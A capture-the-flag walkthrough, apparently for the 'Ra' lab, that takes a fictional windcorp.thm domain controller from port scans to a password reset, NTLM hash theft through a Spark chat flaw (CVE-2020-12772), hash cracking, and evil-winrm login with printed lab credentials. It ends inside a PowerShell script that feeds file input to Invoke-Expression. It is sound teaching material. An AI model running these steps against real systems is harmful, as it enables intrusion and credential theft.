

# Ra

<figure><figcaption></figcaption></figure>

## Enumeration (phase 1)

```bash
nmap -v -A -p- -Pn -sV -sC 10.10.182.111 -oN nmap
```


```
Nmap scan report for 10.10.182.111
Host is up (0.057s latency).
Not shown: 65501 filtered tcp ports (no-response)
PORT      STATE SERVICE             VERSION
53/tcp    open  domain              Simple DNS Plus
80/tcp    open  http                Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Windcorp.
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-05-08 16:09:29Z)
135/tcp   open  msrpc               Microsoft Windows RPC
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
2179/tcp  open  vmrdp?
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server       Microsoft Terminal Services
|_ssl-date: 2024-05-08T16:11:19+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WINDCORP
|   NetBIOS_Domain_Name: WINDCORP
|   NetBIOS_Computer_Name: FIRE
|   DNS_Domain_Name: windcorp.thm
|   DNS_Computer_Name: Fire.windcorp.thm
|   DNS_Tree_Name: windcorp.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2024-05-08T16:10:40+00:00
| ssl-cert: Subject: commonName=Fire.windcorp.thm
| Issuer: commonName=Fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-07T16:06:27
| Not valid after:  2024-11-06T16:06:27
| MD5:   b44e:f93a:7d6d:6ec7:f0ea:c401:1cce:9271
|_SHA-1: 1560:dd41:7875:0bca:5df5:fa58:47f7:0119:0f34:f22e
5222/tcp  open  jabber
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|     features: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: a0cr5qc8u2
|     auth_mechanisms: 
|     capabilities: 
|_    unknown: 
|_ssl-date: 2024-05-08T16:11:19+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Issuer: commonName=fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-01T08:39:00
| Not valid after:  2025-04-30T08:39:00
| MD5:   b715:5425:83f3:a20f:75c8:ca2d:3353:cbb7
|_SHA-1: 97f7:0772:a26b:e324:7ed5:bbcb:5f35:7d74:7982:66ae
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
5223/tcp  open  ssl/jabber
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|     compression_methods: 
|     features: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     capabilities: 
|_    unknown: 
|_ssl-date: 2024-05-08T16:11:19+00:00; -1s from scanner time.
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Issuer: commonName=fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-01T08:39:00
| Not valid after:  2025-04-30T08:39:00
| MD5:   b715:5425:83f3:a20f:75c8:ca2d:3353:cbb7
|_SHA-1: 97f7:0772:a26b:e324:7ed5:bbcb:5f35:7d74:7982:66ae
5229/tcp  open  jaxflow?
5262/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|     features: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 3znuw3huss
|     auth_mechanisms: 
|     capabilities: 
|_    unknown: 
5263/tcp  open  ssl/jabber
|_ssl-date: 2024-05-08T16:11:18+00:00; -2s from scanner time.
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Issuer: commonName=fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-01T08:39:00
| Not valid after:  2025-04-30T08:39:00
| MD5:   b715:5425:83f3:a20f:75c8:ca2d:3353:cbb7
|_SHA-1: 97f7:0772:a26b:e324:7ed5:bbcb:5f35:7d74:7982:66ae
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|     compression_methods: 
|     features: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     capabilities: 
|_    unknown: 
5269/tcp  open  xmpp                Wildfire XMPP Client
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|     compression_methods: 
|     features: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     capabilities: 
|_    unknown: 
5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Issuer: commonName=fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-01T08:39:00
| Not valid after:  2025-04-30T08:39:00
| MD5:   b715:5425:83f3:a20f:75c8:ca2d:3353:cbb7
|_SHA-1: 97f7:0772:a26b:e324:7ed5:bbcb:5f35:7d74:7982:66ae
|_ssl-date: 2024-05-08T16:11:19+00:00; -1s from scanner time.
5275/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|     features: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 1ttnuf2sov
|     auth_mechanisms: 
|     capabilities: 
|_    unknown: 
5276/tcp  open  ssl/jabber
|_ssl-date: 2024-05-08T16:11:19+00:00; -1s from scanner time.
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|     compression_methods: 
|     features: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     capabilities: 
|_    unknown: 
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Issuer: commonName=fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-01T08:39:00
| Not valid after:  2025-04-30T08:39:00
| MD5:   b715:5425:83f3:a20f:75c8:ca2d:3353:cbb7
|_SHA-1: 97f7:0772:a26b:e324:7ed5:bbcb:5f35:7d74:7982:66ae
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
7070/tcp  open  http                Jetty 9.4.18.v20190429
|_http-server-header: Jetty(9.4.18.v20190429)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Openfire HTTP Binding Service
7443/tcp  open  ssl/http            Jetty 9.4.18.v20190429
|_http-server-header: Jetty(9.4.18.v20190429)
|_http-title: Openfire HTTP Binding Service
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Issuer: commonName=fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-01T08:39:00
| Not valid after:  2025-04-30T08:39:00
| MD5:   b715:5425:83f3:a20f:75c8:ca2d:3353:cbb7
|_SHA-1: 97f7:0772:a26b:e324:7ed5:bbcb:5f35:7d74:7982:66ae
7777/tcp  open  socks5              (No authentication; connection not allowed by ruleset)
| socks-auth-info: 
|_  No authentication
9090/tcp  open  zeus-admin?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Wed, 08 May 2024 16:09:36 GMT
|     Last-Modified: Fri, 31 Jan 2020 17:54:10 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 115
|     <html>
|     <head><title></title>
|     <meta http-equiv="refresh" content="0;URL=index.jsp">
|     </head>
|     <body>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Wed, 08 May 2024 16:09:41 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   JavaRMI, drda, ibm-db2-das, informix: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   SqueezeCenter_CLI: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   WMSRequest: 
|     HTTP/1.1 400 Illegal character CNTL=0x1
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x1</pre>
9091/tcp  open  ssl/xmltec-xmlmail?
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Issuer: commonName=fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-01T08:39:00
| Not valid after:  2025-04-30T08:39:00
| MD5:   b715:5425:83f3:a20f:75c8:ca2d:3353:cbb7
|_SHA-1: 97f7:0772:a26b:e324:7ed5:bbcb:5f35:7d74:7982:66ae
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Wed, 08 May 2024 16:09:53 GMT
|     Last-Modified: Fri, 31 Jan 2020 17:54:10 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 115
|     <html>
|     <head><title></title>
|     <meta http-equiv="refresh" content="0;URL=index.jsp">
|     </head>
|     <body>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Wed, 08 May 2024 16:09:54 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 400 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
9389/tcp  open  mc-nmf              .NET Message Framing
49668/tcp open  msrpc               Microsoft Windows RPC
49672/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc               Microsoft Windows RPC
49674/tcp open  msrpc               Microsoft Windows RPC
49695/tcp open  msrpc               Microsoft Windows RPC
6 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5222-TCP:V=7.94SVN%I=7%D=5/8%Time=663BA3CF%P=x86_64-pc-linux-gnu%r(
SF:RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.org
SF:/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-stre
SF:ams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5223-TCP:V=7.94SVN%T=SSL%I=7%D=5/8%Time=663BA3DC%P=x86_64-pc-linux-
SF:gnu%r(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabbe
SF:r\.org/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmp
SF:p-streams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5263-TCP:V=7.94SVN%T=SSL%I=7%D=5/8%Time=663BA3DC%P=x86_64-pc-linux-
SF:gnu%r(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabbe
SF:r\.org/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmp
SF:p-streams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5276-TCP:V=7.94SVN%T=SSL%I=7%D=5/8%Time=663BA3E2%P=x86_64-pc-linux-
SF:gnu%r(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabbe
SF:r\.org/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmp
SF:p-streams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port9090-TCP:V=7.94SVN%I=7%D=5/8%Time=663BA3C1%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,11D,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2008\x20May\x2
SF:02024\x2016:09:36\x20GMT\r\nLast-Modified:\x20Fri,\x2031\x20Jan\x202020
SF:\x2017:54:10\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges:\x20
SF:bytes\r\nContent-Length:\x20115\r\n\r\n<html>\n<head><title></title>\n<
SF:meta\x20http-equiv=\"refresh\"\x20content=\"0;URL=index\.jsp\">\n</head
SF:>\n<body>\n</body>\n</html>\n\n")%r(JavaRMI,C3,"HTTP/1\.1\x20400\x20Ill
SF:egal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=iso
SF:-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Bad
SF:\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x0
SF:</pre>")%r(WMSRequest,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20C
SF:NTL=0x1\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nContent-Len
SF:gth:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1
SF:><pre>reason:\x20Illegal\x20character\x20CNTL=0x1</pre>")%r(ibm-db2-das
SF:,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Ty
SF:pe:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnect
SF:ion:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Ille
SF:gal\x20character\x20CNTL=0x0</pre>")%r(SqueezeCenter_CLI,9B,"HTTP/1\.1\
SF:x20400\x20No\x20URI\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\
SF:nContent-Length:\x2049\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Messag
SF:e\x20400</h1><pre>reason:\x20No\x20URI</pre>")%r(informix,C3,"HTTP/1\.1
SF:\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/ht
SF:ml;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\
SF:r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20charact
SF:er\x20CNTL=0x0</pre>")%r(drda,C3,"HTTP/1\.1\x20400\x20Illegal\x20charac
SF:ter\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCon
SF:tent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x2
SF:0400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x0</pre>")%r(HTT
SF:POptions,56,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2008\x20May\x2020
SF:24\x2016:09:41\x20GMT\r\nAllow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port9091-TCP:V=7.94SVN%T=SSL%I=7%D=5/8%Time=663BA3D3%P=x86_64-pc-linux-
SF:gnu%r(GetRequest,11D,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2008\x20
SF:May\x202024\x2016:09:53\x20GMT\r\nLast-Modified:\x20Fri,\x2031\x20Jan\x
SF:202020\x2017:54:10\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Range
SF:s:\x20bytes\r\nContent-Length:\x20115\r\n\r\n<html>\n<head><title></tit
SF:le>\n<meta\x20http-equiv=\"refresh\"\x20content=\"0;URL=index\.jsp\">\n
SF:</head>\n<body>\n</body>\n</html>\n\n")%r(HTTPOptions,56,"HTTP/1\.1\x20
SF:200\x20OK\r\nDate:\x20Wed,\x2008\x20May\x202024\x2016:09:54\x20GMT\r\nA
SF:llow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RTSPRequest,AD,"HTTP/1\.1\x2
SF:0400\x20Unknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-88
SF:59-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x2
SF:0Message\x20400</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(RPCChe
SF:ck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nConten
SF:t-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nCon
SF:nection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20
SF:Illegal\x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"H
SF:TTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x2
SF:0text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x
SF:20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x2
SF:0character\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x204
SF:00\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;ch
SF:arset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r
SF:\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x2
SF:0CNTL=0x0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-T
SF:ype:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnec
SF:tion:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\
SF:x20URI</pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20chara
SF:cter\x20CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nC
SF:ontent-Length:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\
SF:x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: FIRE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-08T16:10:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   58.60 ms 10.8.0.1
2   58.74 ms 10.10.182.111

NSE: Script Post-scanning.
Initiating NSE at 12:11
Completed NSE at 12:11, 0.00s elapsed
Initiating NSE at 12:11
Completed NSE at 12:11, 0.00s elapsed
Initiating NSE at 12:11
Completed NSE at 12:11, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 225.57 seconds
           Raw packets sent: 131188 (5.776MB) | Rcvd: 131 (6.360KB)

```


### Port 53

Start with some DNS enumeration after adding the IP of VM to /etc/resolv.conf:

```bash
dnsenum --dnsserver '10.10.176.196' --enum 'windcorp.thm'
```

<figure><figcaption></figcaption></figure>

### Port 80

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

There is a list of (probably corporate) emails that we can quickly extract by looking at the page source:

<figure><figcaption></figcaption></figure>

```

organicfish718@fire.windcorp.thm,Antonietta Vidal
organicwolf509@fire.windcorp.thm,Britney Palmer
tinywolf424@fire.windcorp.thm,Brittany Cruz
angrybird253@fire.windcorp.thm,Carla Meyer
buse@fire.windcorp.thm,Buse Candan
Edeltraut@fire.windcorp.thm,Edeltraut Daub
Edward@fire.windcorp.thm,Edward Lewis
Emile@fire.windcorp.thm,Emile Lavoie
tinygoose102@fire.windcorp.thm,Emile Henry
brownostrich284@fire.windcorp.thm,Emily Anderson
sadswan869@fire.windcorp.thm,Hemmo Boschma
whiteleopard529@fire.windcorp.thm,Isra Saur
happymeercat399@fire.windcorp.thm,Jackson Vasquez
orangegorilla428@fire.windcorp.thm,Jaqueline Dittmer
```

As you can see, the icons next to each user are not loading correctly. Looking at the corresponding HTML we notice that a subdomain (fire.windcorp.thm) is used to display the status of users via XMPP protocol. We then add the following entries to the /etc/hosts file:

<figure><figcaption></figcaption></figure>

There is also this section on the website that report some comments of employees about corp:

<figure><figcaption></figcaption></figure>

Looking at the HTML source code for this section we notice that we can infer the naming convention used for Active Directory users, and in addition we also have the name of employee Lily Levesque's dog: Sparky!

<figure><figcaption></figcaption></figure>

#### fire.windcorp.thm/reset.asp

<figure><figcaption></figcaption></figure>

## Exploitation (Lily Levesque)

Now we can try to reset the password of this user:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Great, we have an internal user account and can continue our enumeration!

## Enumeration (phase 2)

### Port 445

Detect version and confirm domain name using Metasploit:

<figure><figcaption></figcaption></figure>

Using the stealed credentials we can try to enumerate some share with `smbmap`:

```bash
smbmap -u "lilyle" -p "ChangeMe#1234" -H windcorp.thm
```

<figure><figcaption></figcaption></figure>

#### Users

Access denied for all folders present...

<figure><figcaption></figcaption></figure>

#### Shared

Then using `smbclient` we will obtain the first Flag connecting to `Shared` share:

```bash
smbclient //windcorp.thm/Shared -U "lilyle%ChangeMe#1234"
```

<figure><figcaption></figcaption></figure>

We see that there are also some installers of Spark (an IM client) for different platforms. Let's download and try to install the client. Then login using Lily Levesque credentials.


In order to avoid some errors such as checking the hostname in the certificate, by selecting `Advanced` we can bypass some security checks



<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

By going to the web page we can find the list of IT users currently online:

<figure><figcaption></figcaption></figure>

After Googling “Spark Instant Messenger exploit” you’ll eventually come across CVE-2020-12772


An issue was discovered in Ignite Realtime Spark 2.8.3 (and the ROAR plugin for it) on Windows. A chat message can include an IMG element with a SRC attribute referencing an external host's IP address. Upon access to this external host, the (NT)LM hashes of the user are sent with the HTTP request. This allows an attacker to collect these hashes, crack them, and potentially compromise the computer. (ROAR can be configured for automatic access. Also, access can occur if the user clicks.)


If we try to send a simple message like “hello” we get no response, but trying to exploit the vulnerability found and sending the payload so formatted we get a response on the Python server listening on our machine. This means that the URL is resolved by the Spark client of the buse user:

<figure><figcaption></figcaption></figure>

## Privilege Escalation (Buse Candan)

So now try to steal the NTLM hash using Responder:

```bash
responder -I tun0 -dPv
```

Using the following payload:

```
 
```

<figure><figcaption></figcaption></figure>

We can now crack this hash using Hashcat:


```bash
hashcat -m 5600 ntlm-buse.txt /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt --force
```


<figure><figcaption></figcaption></figure>

`buse`:`uzunLM+3131`

With these credentials we can try to access the previous inaccessible share `Users` and get the second Flag:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Enumeration (phase 3)

Using buse credentials we can run Bloodhound to find some Privilege Escalation path:

<figure><figcaption></figcaption></figure>

Note how the `buse` user belongs to the `Account Operators` group.&#x20;


Account Operators can modify user objects (in particular for our interest the PASSWORD!) for any user that is not a member of one of the protected groups (Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators groups).


RDP is allowed using the `rdp_check.py` script but then this error message is shown:

<figure><figcaption></figcaption></figure>

Try to access the Domain Controller using `evil-winrm`:

```bash
evil-winrm -i fire.windcorp.thm -u buse -p uzunLM+3131
```

<figure><figcaption></figcaption></figure>

If we explore the file system a bit, we will find the classic folder inetpub containing also check.asp file with reset password code previously exploited:


```aspnet
<head>

  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta name="description" content="">
  <meta name="author" content="">

  <title>Windcorp.</title>

  <!-- Bootstrap core CSS -->
  <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">

  <!-- Custom fonts for this template -->
  <link href="vendor/fontawesome-free/css/all.min.css" rel="stylesheet">
  <link href="vendor/simple-line-icons/css/simple-line-icons.css" rel="stylesheet" type="text/css">
  <link href="https://fonts.googleapis.com/css?family=Lato:300,400,700,300italic,400italic,700italic" rel="stylesheet" type="text/css">

  <!-- Custom styles for this template -->
  <link href="css/landing-page.min.css" rel="stylesheet">

</head>

<body>


<div class="jumbotron" style="height:100vh;">


<%
Dim name, age
username = Request.Form("username")
secret = Request.Form("secret")
question = Request.Form("question")

if username = "lilyle" AND secret = "Sparky" AND question = 3 then
        Response.Write("<h4 class='display-3'>Your password has been reset to: <b>ChangeMe#1234</b><br></h4>")
        Response.Write("Remember to change it after logging in!")
        dim fs,f
        set fs=Server.CreateObject("Scripting.FileSystemObject")
        set f=fs.CreateTextFile("C:\inetpub\wwwroot\32d9027af1d9c4e85e3eb65954af2cc375a25313\1",true)
        f.write("1")
        f.close
        set f=nothing
        set fs=nothing
else
        Response.write "<h1 class='display-4'>Wrong username and/or secret!</h1>"
end if
%>


</div>

</body>
</html>

```


and there is a folder `C:\Scripts` with an interesting powershell in it:


```powershell
# reset the lists of hosts prior to looping
$OutageHosts = $Null
# specify the time you want email notifications resent for hosts that are down
$EmailTimeOut = 30
# specify the time you want to cycle through your host lists.
$SleepTimeOut = 45
# specify the maximum hosts that can be down before the script is aborted
$MaxOutageCount = 10
# specify who gets notified
$notificationto = "brittanycr@windcorp.thm"
# specify where the notifications come from
$notificationfrom = "admin@windcorp.thm"
# specify the SMTP server
$smtpserver = "relay.windcorp.thm"

# start looping here
Do{
$available = $Null
$notavailable = $Null
Write-Host (Get-Date)

# Read the File with the Hosts every cycle, this way to can add/remove hosts
# from the list without touching the script/scheduled task,
# also hash/comment (#) out any hosts that are going for maintenance or are down.
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
ForEach-Object {
    $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
    Invoke-Expression $p
if($p)
    {
     # if the Host is available then just write it to the screen
     write-host "Available host ---> "$_ -BackgroundColor Green -ForegroundColor White
     [Array]$available += $_
    }
else
    {
